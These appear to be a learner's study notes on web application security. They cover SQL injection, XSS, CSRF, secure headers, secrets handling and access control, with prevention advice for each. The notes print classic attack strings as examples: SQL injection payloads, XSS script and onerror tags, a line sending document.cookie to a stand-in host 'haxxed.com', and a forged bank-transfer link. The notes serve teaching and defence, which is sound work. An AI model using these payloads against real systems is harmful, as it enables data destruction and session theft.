 ### Star of Security

![star](../img/star.png)
* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/
* https://owasp.org/
### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies

### Code Secrets

1. Environment Variables: API key
   * process.env set by create-react-app
   * Under the hood, it uses dotenv package
   * .env file in create-react-app(REACT_APP_SAY_HI=HIII)
   * Run npm start again and you can see the details in process.env
2. Commit History
  * Include .env in .gitignore
  * Don't commit your code secrets to Github

### Secure Headers

* npm install helmet
* Without helmet, make some request in input field
* In Network tab of that request, in the Headers section, you see
  * Info of X-Powered-By: Express
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L9-L10
* HTTP Headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
* HTTP Header fields: https://www.tutorialspoint.com/http/http_header_fields.htm
* helmet: https://github.com/helmetjs/helmet
* HTTP: The Protocol Every Web Developer Must Know: https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177

### Access Control

* Principal of least privilege
  * Give nearly enough so that People can do their work and nothing more
* CORS: Cross origin resource sharing
  * Access to only people we trust using corsOptions
![cors](../img/cors.png)

### Data Management

* Encrypt only sensitive data
  * bcrypt, scrypt, aragon2
  * pgcrypto - encrypt a few columns(Encrypting database)
* https://rangle.io/blog/how-to-store-user-passwords-and-overcome-security-threats-in-2017/

### Don't Trust Anyone

![dta](../img/dta.png)
* ratelimiter when client is compromised and sends requests after requests

### Authentication

![auth](../img/auth.png)
* 2 factor authentication
* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/